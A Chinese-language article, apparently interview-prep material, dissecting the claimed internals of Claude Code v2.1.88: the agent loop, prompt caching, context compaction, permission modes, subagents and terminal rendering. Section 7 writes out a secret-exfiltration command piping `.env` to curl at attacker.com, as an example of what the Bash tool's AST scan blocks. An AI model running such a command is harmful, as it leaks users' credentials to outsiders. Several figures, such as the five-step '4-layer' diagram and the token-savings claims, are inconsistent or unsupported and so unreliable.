


# Claude Code 源码分析与架构设计复盘


> **源码分析版本**：Claude Code v2.1.88  
> **设计哲学**：不靠花哨的编排框架，用**最薄的 ReAct 循环** ＋ **最厚、最稳的工程外壳**（AST 级权限扫描、分段缓存、4层上下文压缩、高性能终端渲染和严格的多 Agent 隔离）构建生产级 Coding Agent。

---

## 1. Claude Code 的高层架构与核心数据

Claude Code 是一套典型的 **Tool-Centric（以工具为中心）** 的架构。在底层实现上，它是一个规模巨大的 TypeScript 项目（包含 **~510,000 行代码，1,902 个源文件**）。

### 1.1 核心设计哲学
1. **Tool-Defined Boundaries（工具即边界）**：Agent 没有任何后门。大到执行 shell 命令、修改代码，小到读取文件，其所有对外部物理世界的操控，都必须被定义为一个标准的、受限的 Tool。
2. **Fail-Closed Security（默认安全关闭）**：默认策略始终最保守。工具执行默认单线程、写操作默认需要人工确认、敏感目录物理隔离。
3. **Context Engineering > Prompt Engineering（上下文重于提示词）**：不迷信静态 prompt。系统的重心在于如何高效装配、高速缓存、动态收缩、自动合并 200k 庞大的上下文窗口。
4. **Compile-Time Elimination（编译期代码消除）**：在打包发布阶段，利用 Bun 的 `feature()` macros 宏，在 **编译期物理消除** 所有内部测试或未授权的 features 代码，保障生产包（Production Bundle）体积小、瞬时启动、且不泄露未发布功能。



| 组件 | 负责什么 | 设计要点 |
|---|---|---|
| **User** | 提出目标、审批高风险动作、验收结果 | 人类保留最终决策权（Human-in-the-loop） |
| **Interfaces** | interactive CLI TUI、`claude -p` 无头模式、SDK、CI/CD 插件 | 共享同一套 Agent Loop 核心，保证多入口行为行为一致性 |
| **Agent Loop** | 动态上下文组装、调用 API、解析 Tool Proposal、回填结果 | 采用 `AsyncGenerator` 状态机实现双层流式响应与背压控制 |
| **Permission System** | Deny-first、Ask-by-default、硬编码敏感路径免白名单隔离 | 安全校验在 Harmony Harness 层强制执行，而非靠 Prompt 约束 |
| **Tools** | 文件读写（`FileRead/FileEdit`）、安全 Bash 执行、MCP server、多层 Subagent | 所有工具均声明并发安全性，自适应并行执行或串行阻断 |
| **Execution Environment** | 本地文件系统、POSIX shell、沙箱（Sandbox）、Git 工作区 | 沙箱级操作系统隔离与 AST 级命令行预扫描 |
| **State & Persistence** | 追加式 JSONL transcript、session metadata、分支回滚 | 详细记录每一步的 Trace 和轨迹，支持失败中断恢复与 Time Travel |

---

## 2. 双层核心运行链路与 streaming 执行器

Claude Code 的主循环运行在 `src/QueryEngine.ts` 模块中。在底层，它被设计为一个由 `AsyncGenerator` 驱动的**双层状态机**，具备强悍的流式传输、背压控制（Backpressure）与流式工具异步执行能力。

```text
1. QueryEngine (Session Layer)
   └─ 负责多轮会话状态流转、历史数据持久化、协议适配
2. queryLoop (Execution Layer)
   └─ 负责 "API 调用 ➜ 动态解析 ➜ 权限网关 ➜ 异步工具执行 ➜ 异常自动恢复" 闭环
```

### 2.1 核心运行 Loop 伪代码
```typescript
// src/QueryEngine.ts
async function* queryLoop(
  sessionState: SessionState,
  tools: ToolRegistry
): AsyncGenerator<AgentEvent> {
  while (!sessionState.isTaskCompleted()) {
    // 1. 分段缓存装配上下文
    const context = await assembleContextWithCacheBoundary(sessionState);
    
    // 2. 发起流式模型请求
    const stream = await modelClient.streamGenerate(context);
    
    // 3. 实时解析流式工具调用 (Streaming Tool Executor)
    for await (const chunk of stream) {
      if (chunk.type === 'tool_call_start') {
        yield { type: 'progress', message: `Model proposes tool: ${chunk.toolName}` };
        
        // Concurrency Control: 并行工具控制
        const tool = tools.get(chunk.toolName);
        if (tool.isConcurrencySafe) {
          // 如果声明为并发安全（如 FileRead），加入并发队列并行执行
          concurrencyQueue.add(() => executeToolWithGuard(tool, chunk.args));
        } else {
          // 串行阻断：若为写操作（如 FileEdit），必须等待并发队列排空，再串行执行
          await concurrencyQueue.drain();
          const result = await executeToolWithGuard(tool, chunk.args);
          sessionState.appendToolResult(result);
        }
      }
      
      if (chunk.type === 'text_delta') {
        yield { type: 'text', delta: chunk.text };
      }
    }
    
    // 4. 并发任务收尾
    await concurrencyQueue.drain();
    
    // 5. Token 预算追加催促 (Token Budget Nudging)
    if (sessionState.isTaskActiveButStopped()) {
      // 如果大模型在长会话中突然中断，但业务目标尚未达成，系统自动注入一条隐藏的催促消息，压榨模型直至任务收尾
      sessionState.injectSystemNudge("Continue completing the task. If done, output text directly.");
    }
    
    // 6. 自动执行上下文压缩评估
    if (sessionState.tokensUsed > 167000) {
      await autoCompactContext(sessionState);
    }
  }
}
```

---

## 3. 分段式提示词缓存架构 (Segmented Cache Architecture)

Claude Code 的系统提示词（System Prompt）非常庞大，包含严格的开发规范、代码审美 constitution 和工具调用范式。为了在 200k 的超长窗口中保持低成本和低首字延迟（TTFT），Claude Code 采用了 **分段式提示词缓存架构**。

```text
┌──────────────────────────────────────────────────────────┐
│ Static Region: Constitution & Rules (Cached Globally)     │
├──────────────────────────────────────────────────────────┤
│ SYSTEM_PROMPT_DYNAMIC_BOUNDARY                          │
├──────────────────────────────────────────────────────────┤
│ Dynamic Region: Git Status, CLAUDE.md, MCP (Uncached)    │
└──────────────────────────────────────────────────────────┘
```

1. **静态缓存区 (Static Region)**：以硬编码的 `SYSTEM_PROMPT_DYNAMIC_BOUNDARY` 为界限。上方存放完全静态的规则（如“三行重复代码优于过早的重构抽象”、代码风格红线、角色宪法）。这部分在 Anthropic 平台被**全局长期缓存（Prompt Caching）**，所有用户共享。
2. **动态渲染区 (Dynamic Region)**：存放与当前会话物理环境强相关的实时数据：
   - 当前系统的 **Git status & diff** 快照。
   - 自动发现的 **`CLAUDE.md`** 项目指令规约（从系统根目录向当前工作目录逐级递归合并）。
   - 当前挂载的 **MCP 远程工具清单** 及其参数模式。

> **防过度工程铁律 (Anti-Overengineering Prompt)**：其 System Instruction 明确写有一行硬红线指令——“Three lines of duplicate code is better than a premature abstraction.”（三行重复代码好过一个不成熟的抽象），以此约束模型绝不进行多余的功能添加与无用重构。

---

## 4. 4层动态上下文收缩与重构 (Context Compaction)

面对 200k 的超长窗口，Claude Code 并不会放任历史膨胀。它的 `src/services/compact/` 模块实现了极为精密的 **4层动态上下文收缩策略**：

```text
               【Claude Code 4层上下文治理模型】
               
  1. 消息剪枝 (Pruning) ──> 移除废弃或重复的中间 Tool 结果
         │
  2. 历史折叠 (Collapse) ──> 将早期的多轮对话折叠为 Metadata JSON
         │
  3. 主动压缩 (AutoCompact @167k Tokens) ──> 触发专用提示词提取上下文快照
         │
  4. 被动重试 (Reactive Compact) ──> 捕获 API 400 越界异常，执行降级强剪
         │
  5. 现场重构 (Post-Reconstruction) ───> 重新强注 Top-5 核心文件与技能
```

1. **第一层：消息剪枝 (Message Pruning)**：主动过滤、修剪过期的中间检索工具结果（例如上几轮搜索代码吐出的 100 行垃圾文本，只保留匹配行号，销毁全文）。
2. **第二层：历史折叠 (Context Collapse)**：将超过 15 轮以前的历史 Message，合并折叠为单条 `collapsed_history_metadata`。
3. **第三层：主动压缩 (Proactive AutoCompact)**：当 Context 消耗达到 **~167,000 tokens** 时，自动拦截图流转。启动一个独立的、低成本的微型模型，根据专用摘要 Prompt 生成高度浓缩的 `State Synopsis`：
   - **硬性保留红线**：摘要中必须强行保留 **用户原始意图、已确认的技术决策、已修改的文件清单、核心冲突以及“所有人类的消息（User Messages）原文”**（确保用户的历次修改和反馈不丢失）。
4. **第四层：被动重试 (Reactive Compact)**：当网络请求由于意外突增、被 API 判定为 context_length_exceeded (400 错误) 阻断时，触发异常捕获，强行按照“时间窗口法”裁剪掉前 30% 的中间思考痕迹，执行降级重试。
5. **后压缩现场重构 (Post-Compaction Reconstruction)**：摘要压缩完毕后，系统会主动重新读取 **当前正在编辑的 Top-5 关键文件正文** 以及 **CLAUDE.md 规则**，重新注入大模型上下文，防止压缩后模型“失忆”或“失明”。

---

## 5. 多层防御的 Human-in-the-loop (HITL) 权限流

在 Claude Code 中，安全并非单纯靠 System Prompt 口头警告，而是由外部 Harness 在底层代码（如 `src/tools/BashTool/`）中强行拦截。



### 5.1 权限等级划分与 Statsig 远程熔断
- **`plan` 模式 (只读模式)**：完全禁止任何写操作，模型调用 `FileWrite`、`FileEdit` 或 `Bash` 直接返回“Permission Denied”模拟事件，让模型只做规划、搜索和方案论证。
- **`default` 模式 (默认模式)**：读操作全自动放行；高风险写操作（如修改 CI/CD 脚本、跨工作区修改、网络 Fetch）弹框询问人类。
- **`bypassPermissions` 模式 (免审批全自动模式)**：极客专属模式，不弹框。
- **远程 Statsig 熔断开关 (Killswitch)**：Anthropic 的客户端内置了 Statsig 远程动态控制开关。一旦安全团队线上捕获了基于 Bash 执行的 0-day 提示词注入漏洞，可**远程一键熔断**全球所有客户端的 `bypassPermissions` 功能，强行降级回 Ask 审批状态。

### 5.2 硬编码的免疫隔离路径 (Immune Hardcoded Paths)
即使处于 `bypassPermissions` 全自动信任模式下，有些敏感文件和路径也由 **编译期硬编码物理断言** 拦截，**百分之百必须弹框由人类二次确认**：
- `.git/` 核心配置目录。
- `.claude/` 工具及会话历史配置目录。
- 用户主目录下的 shell 启动脚本（如 `.zshrc`、`.bashrc`、`.profile`）。
- 系统全局敏感区（如 `/etc/`、`/var/run/` 等）。

### 5.3 影子多代理权限上抛机制 (Permission Bridging)
当在多 Agent Team 协作中，后台的子 Agent（Subagent）试图进行敏感操作（例如向外部域名发起 Fetch 获取三方库数据）时：
- 子 Agent 并不直接向终端渲染弹窗，也没有权限向用户提问。
- 采用 **Permission Bridging 桥接协议**：子 Agent 会将权限请求以结构化 `permission_request` JSON 报文抛给父级 Agent。
- 父级 Agent（拥有主终端交互上下文）将其在主 TUI 界面中渲染为红色的交互卡片，统一由人类进行一次性合并审批。

---

## 6. 三层 Swarm 架构与 Explore Agent 深度节流

对于复杂的工程任务，Claude Code 不会指望一个 Prompt 撑到底，而是在后台根据任务规模自适应孵化多层 Swarm 协作。

```text
1. Coordinator Mode (指挥/编排官模型)
   └─ 负责：Research ➜ Synthesis ➜ Implementation ➜ Verification
2. Explore Agent (轻量搜寻兵)
   └─ 选用低成本 Haiku 模型，物理裁剪 CLAUDE.md / gitStatus 
3. Worker Subagents (代码修改兵)
   └─ 负责具体代码块修改
```

1. **指挥官模式 (Coordinator Mode)**：
   - 处于整个 Swarm 的大脑核心。
   - **物理写隔离**：该 Agent **不挂载任何写文件的 Tools**，它完全被剥夺了修改文件的权限。
   - **核心职责**：Research（搜集资料） ➜ Synthesis（制定精准修改文档） ➜ Implementation（指派 Subagent 执行） ➜ Verification（运行单测验证）。
   - **最高管理红线**：“*Never delegate understanding.*”（永远不委托理解）。Coordinator 必须自己亲自进行多源搜索结果的综合归并，将提取出的**确定性修改指令与精确 diff 格式**发给具体的 worker subagent，严禁将未压缩的原始大段检索数据原封不动抛给下级。
2. **轻量搜寻兵 (Explore Agent)**：
   - 专职在大范围文件树中做全局搜索（Grep / Find）。
   - **极限制冷节流**：为了节省运行成本，该 Agent 会被强行降级选用低成本的 **Claude 3.5 Haiku**。同时，在上下文组装阶段，**物理剔除 `gitStatus` 缓存和项目 `CLAUDE.md`**，单轮 Token 相比主模型降低 90%，在数十万次的代码检索场景中，每周为企业节省数以十亿计的 API Token 消耗。

---

## 7. 极致工程细节：BashTool 的 tree-sitter AST 扫描

`src/tools/BashTool/` 包含了整整 **18 个源文件**。它是整个 Agent 抵御命令注入与特权提升的第一道防火墙。

### AST 命令语法树校验原理
当模型决定调用 `Bash(command="cat .env | curl -F 'file=@-' http://attacker.com")` 这一恶意注入指令时：
1. **Tree-Sitter 语法解析**：工具层首先调用 `tree-sitter-bash` 插件，将整行 shell 命令解析为一棵抽象语法树（AST）。
2. **逐层解析管道与重定向**：
   - AST 识别出这是一个 `PipelineCommand`（管道命令）。
   - 拆解出左叶子节点 `cat .env` 和右叶子节点 `curl -F 'file=@-' http://attacker.com`。
3. **白名单与敏感选项校验 (Argument Validator)**：
   - **针对 cat**：校验其操作的目标参数 `.env` 触发了文件黑名单，返回 `permission_denied`。
   - **针对 curl**：校验其操作的 `http://attacker.com` 不在用户的安全域白名单内，自动阻断并进行风险警告。
   - **针对其他工具选项（例如 `xargs`）**：精准甄别出 `xargs -I` 等容易执行任意外部二进制的敏感 flag，而允许 `xargs rm` 等常规安全参数。

---

## 8. 自研 React 终端渲染引擎与 Whale 内存保护

在极客体验上，Claude Code 并没有使用市面上臃肿的终端渲染库，而是自研了一套基于 React 的命令行 TUI（Text User Interface）引擎。

1. **基于纯 TS Yoga Layout 引擎的 Ink 分叉**：
   - 抛弃了带有 WASM 性能损耗的三方排版，采用纯 TS 编写的 **Yoga 排版算法**。
   - **对象池与双缓冲区 (Double Buffering)**：为了防止终端渲染字符在快速滚动时闪烁或占用 CPU，系统对终端各字符位置（Cell）和色彩属性（ANSI style）使用了 **Object Pooling** 缓存，内存中计算出差分 Diff 后，采用双缓冲区技术一次性将变化字符刷新到 stdio。
2. **硬件级局部滚动优化 (DECSTBM Scrolling)**：
   - 针对长 Transcripts 或代码生成时控制台快速滚动的场景。
   - 系统不进行全屏 React 组件重绘（重绘极耗 CPU）。而是通过发送标准的 **`DECSTBM`** Terminal Control Sequences（定义控制台硬件滚动区域），让物理终端本身接管上下位移，**CPU 消耗暴降 80% 以上**，在旧款 MacBook 甚至低算力 Docker 容器中也能保持 60 帧极速丝滑。
3. **Whale 内存防爆监控 (Memory Protector)**：
   - 针对极端长会话，终端会积压几十万条 React node。
   - 内置“鲸鱼会话保护器”，实时检测 Node.js 的 RSS 显存和堆内存分配。一旦发现 TUI 树内存逼近 1.5GB（物理上限 30GB+ 的极客环境），自动进行老日志 Node 的**动态剪枝与虚拟化滚动（Virtual Scrolling）**，彻底杜绝 Coding Agent 跑通宵把服务器跑 OOM 的工程尴尬。

---

## 9. 核心源码模块职责对应表 (Key Source Modules)

在分析其 TS 源码时，可直接对照以下核心模块路径，进行针对性架构借鉴：

| 核心源文件路径 | 所属核心子系统 | 承担的物理职责与工程秘密 |
| :--- | :--- | :--- |
| `src/QueryEngine.ts` | **Core Agent Layer** | 整个 Agent Loop 的双层状态机入口，管理异步生成器与背压 |
| `src/tools/BashTool/` | **Safety & Policy Layer** | 包含 18 个核心文件，调用 tree-sitter 对 shell 进行 AST 词法安全扫描 |
| `src/services/compact/` | **State & Recovery Layer** | 实现 4 层上下文自动压缩、折叠、主动 AutoCompact 与现场重构 |
| `src/ink/` | **Interface Layer** | 纯 TS Yoga 排版、双缓存对象池、DECSTBM 硬件终端滚动引擎 |
| `src/utils/swarm/` | **Capability Layer** | 多 Agent Swarm 协作协议、轻量 Explore 节流方案及权限桥接上抛 |

---

## 10. 面试真题与现场口撕 Q&A

### Q1：为什么像 Claude Code 这样顶尖的 coding Agent 都没有用 LangChain / AutoGen 这样大而全的模型编排状态机框架？
**💡 满分回答：**
> “大而全的 Agent 编排框架虽然在 Demo 阶段极其便捷，但在真正的企业级生产环境中，它们往往引入了巨大的黑盒复杂度、多余的上下文开销和不确定的中间状态。
> 
> 顶尖的生产 Agent（如 Claude Code）核心的 ReAct loop 实际上非常薄，核心复杂度反而存在于 **Harness（系统工程外壳）**。我们需要自己用最稳妥的 TypeScript 或 Python 协程直接操控 **上下文分段缓存边界、悲观锁、双缓存 TUI 渲染、tree-sitter 词法树安全拦截、以及 4 层的上下文硬收缩策略**。这些极致的工程性能和绝对的安全隔离，是任何高层编排框架都无法完美赋予的。
> 
> 因此，‘薄 loop + 厚外壳’、‘LLM 决策 + 代码装配’，是构建高 SLA 生产 Agent 的必然选择。”

### Q2：当 Agent 会话长达 20 轮、上下文高达 15 万 Tokens 时，执行 Context Compaction（上下文压缩）后，模型经常会忘记当前的编辑位置或刚才讨论的核心规范，你怎么解决？
**💡 满分回答：**
> “这在上下文工程中被称为‘压缩失忆症’。我们需要借鉴 Claude Code 的 **Post-Compaction Reconstruction（后压缩重构）** 机制。
> 
> 我们的做法是：当触发主动 AutoCompact 提取出结构化的状态摘要后，不能直接带着摘要开始下一轮对话。系统必须在后置层执行一次 **‘现场强注入’**：
> 1. 重新分析出当前最核心的、正在被模型高频修改的 **Top-5 文件列表**。
> 2. 将这 5 个文件的当前物理状态（正文/关键修改 diff）再次读取。
> 3. 伴随着项目的最高级规则文件（如 `CLAUDE.md`）与最新的 user 消息原文，重新强行拼装在压缩后的新 checkpoint 首部。
> 
> 这样，我们在物理上抹平了压缩带来的局部信息差，在把上下文窗口暴降 70% 的同时，让模型依然保持 100% 精准的开发视野。”
